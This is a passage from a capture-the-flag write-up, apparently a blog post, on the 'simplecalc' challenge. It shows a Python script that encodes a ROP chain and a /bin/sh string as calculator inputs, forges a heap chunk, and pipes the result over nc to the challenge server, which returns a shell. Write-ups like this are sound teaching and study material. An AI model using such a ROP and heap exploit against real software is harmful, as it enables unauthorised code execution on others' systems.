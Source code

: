 # 0x401c87 : pop rsi ; ret
payload.append('1\n2100803\n2100804\n') #ADD 2100803 2100804
payload.append('2\n42\n42\n')           # PADD
# 0x0
payload.append('2\n42\n42\n')           #SUB 42 42
payload.append('2\n42\n42\n')           # PADD
# 0x437a85 : pop rdx ; ret
payload.append('1\n2211138\n2211139\n') #ADD 2211138 2211139
payload.append('2\n42\n42\n')           # PADD
# 0x0
payload.append('2\n42\n42\n')           #SUB 42 42
payload.append('2\n42\n42\n')           # PADD
# 0x400493 : pop r12 ; ret
payload.append('1\n2097737\n2097738\n') #ADD 2097737 2097738
payload.append('2\n42\n42\n')           # PADD
# 0x4648e5 : syscall ; ret
payload.append('1\n2303090\n2303091\n') #ADD 2303090 2303091
payload.append('2\n42\n42\n')           # PADD
# 0x492468 : mov rdi, rsp ; call r12
payload.append('1\n2396724\n2396724\n') #ADD 2396724 2396724
payload.append('2\n42\n42\n')           # PADD
# /bin/sh\0 => nib/ \0hs/
payload.append('1\n926200087\n926200088\n') #ADD 397489335 397489335
payload.append('1\n3422615\n3422616\n') #ADD 398046208 398046208

# create the fake chunk
payload.append('2\n2736\n1374\n') # store 0 in 0x6c4ab8

trigger = '5\n'
payload.append(trigger)

for cmd in payload:
    stdout.write(cmd)
    stdout.flush()
    sleep(0.1) # just to be nice
{% endhighlight %}

And *voilà*:
{% highlight shell-session %}
$ (./payload.py; cat -) | nc simplecalc.bostonkey.party 5500
[snip]
=> Integer x: Integer y: Result for x - y is 1362.

Options Menu:
 [1] Addition.
 [2] Subtraction.
 [3] Multiplication.
 [4] Division.
 [5] Save and Exit.
=> ls
key

[glibc]: https://www.gnu.org/software/libc/
[free]: https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=b8a43bfb32bcd97a6ed468cb7635b4bbfef2e3a2;hb=HEAD#l2925
[tenways]: http://lifehacker.com/top-10-ways-to-hack-your-grill-1607315381